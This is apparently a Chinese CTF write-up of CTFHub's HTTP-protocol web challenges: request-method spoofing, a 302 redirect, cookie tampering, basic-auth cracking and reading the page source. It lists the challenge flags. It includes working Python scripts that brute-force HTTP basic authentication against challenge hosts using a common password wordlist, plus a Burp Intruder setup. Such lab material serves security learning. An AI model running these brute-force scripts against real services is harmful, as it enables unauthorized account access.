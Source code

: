 ```yaml
---
description: Web技能树·前置技能·HTTP协议
---
```


# 技能树·HTTP协议

![image-20210424132445332](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424132445.png)

## 1、请求方式

![image-20210424132802101](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424132802.png)

![image-20210424133807305](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424133807.png)

用hackbar怎么都不管用，get，post都不行，仔细一看应该是把GET请求方式改成GTFHUB的请求方式，可是HTTP没有这种方式呀，就抓包一试。

![image-20210424133453625](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424133453.png)

![image-20210424133517245](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424133517.png)

修改之后，放包，flag出现~

![image-20210424133526536](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424133526.png)

```text
ctfhub{c483838cbe2f37579f65800c}
```

### HTTP的请求方式

```text
1、OPTIONS
返回服务器针对特定资源所支持的HTTP请求方法，也可以利用向web服务器发送‘*’的请求来测试服务器的功能性
2、HEAD
向服务器索与GET请求相一致的响应，只不过响应体将不会被返回。这一方法可以再不必传输整个响应内容的情况下，就可以获取包含在响应小消息头中的元信息。
3、GET
向特定的资源发出请求。注意：GET方法不应当被用于产生“副作用”的操作中，例如在Web Application中，其中一个原因是GET可能会被网络蜘蛛等随意访问。Loadrunner中对应get请求函数：web_link和web_url
4、POST
向指定资源提交数据进行处理请求（例如提交表单或者上传文件）。数据被包含在请求体中。POST请求可能会导致新的资源的建立和/或已有资源的修改。 Loadrunner中对应POST请求函数：web_submit_data,web_submit_form
5、PUT
向指定资源位置上传其最新内容
6、DELETE
请求服务器删除Request-URL所标识的资源
7、TRACE
回显服务器收到的请求，主要用于测试或诊断
8、CONNECT
HTTP/1.1协议中预留给能够将连接改为管道方式的代理服务器。

注意：
1）方法名称是区分大小写的，当某个请求所针对的资源不支持对应的请求方法的时候，服务器应当返回状态码405（Mothod Not Allowed）；当服务器不认识或者不支持对应的请求方法时，应返回状态码501（Not Implemented）。
2）HTTP服务器至少应该实现GET和HEAD/POST方法，其他方法都是可选的，此外除上述方法，特定的HTTP服务器支持扩展自定义的方法。
```

## 2、302跳转

![image-20210424134238786](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134238.png)

![image-20210424134310310](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134310.png)

点击Give me flag链接，进行抓包获得flag

![image-20210424134419749](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134419.png)

```text
ctfhub{7bb4b24e346c4f1108a97d13}
```

## 3、Cookie

![image-20210424134530517](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134530.png)

![image-20210424134836789](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134836.png)

题目说是admin才给flag，抓包看到cookie中的admin值为0，所以需要修改成1。

![image-20210424134707126](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134707.png)

放包得到flag

![image-20210424134723578](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134723.png)

```text
ctfhub{f2d68b2b26f3dad8429e36ea}
```

## 4、基础认证

![image-20210424134908729](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134908.png)

![image-20210424135004621](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424135004.png)

点击click，需要我们输入账号密码

![image-20210424135025990](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424135026.png)

我们尝试登录一下，没有什么效果。题目附件给了一份密码，也就是说密码在其中。我们抓包看了一下，密码是base64加密的。

![image-20210424140719559](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424140719.png)

我们使用一个脚本，将密码进行加密。

```text
import base64

with open("10_million_password_list_top_100.txt", "r+") as f:
    for line in f.readlines():
        line = line.strip('\n')
        line = 'admin:'+line
        print (line)
        line1=base64.b64encode(line.encode('utf-8'))
        #print(str(line1,'utf-8'))
        f.write(str(line1,'utf-8')+'\n')
```

![image-20210424140355959](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424140355.png)

我们进行整理一下。方便导入burp进行爆破

![image-20210424140846852](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424140846.png)

成功得到flag

```text
ctfhub{f75a627405e265fcb4cfe479}
```

### 基础认证

```text
https://zh.wikipedia.org/wiki/HTTP%E5%9F%BA%E6%9C%AC%E8%AE%A4%E8%AF%81
```

### 其余解法

python中requests模块提供了对应的方法可以用来对账号密码进行爆破。

打开题目抓包，点击click获取flag，弹框需要账号密码，随便输入账号密码，已知账号admin,题干下面提供了密码的字典，直接上python脚本走一波。

方法一：利用python中requests模块的auth.HTTPBasicAuth爆破

```text
import requests
proxies={"http:http://127.0.0.1:5080"}
username='admin'
with open(r'10_million_password_list_top_100.txt','r') as f:
    lines=f.readlines()
    for pwd in lines:
        password=pwd.rstrip('\n')
        url = "http://challenge-537d355a9df61d39.sandbox.ctfhub.com:10080/flag.html"
        auth=requests.auth.HTTPBasicAuth(username,password)
        print(auth)
        res=requests.get(url=url,auth=auth)
        ss=res.status_code
        if ss==200:
            print("password is %s,status_code is %s" %(password,ss))
```

通过requests模块，该模块提供了http基础认证的方法，直接爆破密码，根据返回值为200则密码正确，否则返回值为401，密码错误。

方法二：通过浏览器可以用[http://username:password@domain的方式进行登陆验证](http://username:password@domain的方式进行登陆验证)

```text
import requests
username='admin'
with open(r'10_million_password_list_top_100.txt','r') as f:
    lines=f.readlines()
    for pwd in lines:
        password=pwd.rstrip('\n')
        url = "http://admin:%s@challenge-da462e6a1d7f1d65.sandbox.ctfhub.com:10080/flag.html" %password     
        res=requests.get(url=url)
        ss=res.status_code
        # if ss==200:
        print("password is %s,status_code is %s" %(password,ss))
```

方法三：burp时候添加base64编码以及admin头部

![image-20210424141519835](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141519.png)

![image-20210424141532019](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141532.png)

![image-20210424141554820](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141554.png)

## 5、响应包源代码

![image-20210424141750890](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141750.png)

![image-20210424141900070](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141900.png)

f12查看源码，flag出来。

![image-20210424141918803](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141918.png)

```text
ctfhub{c42e7e2fd33560b0043b5629}
```

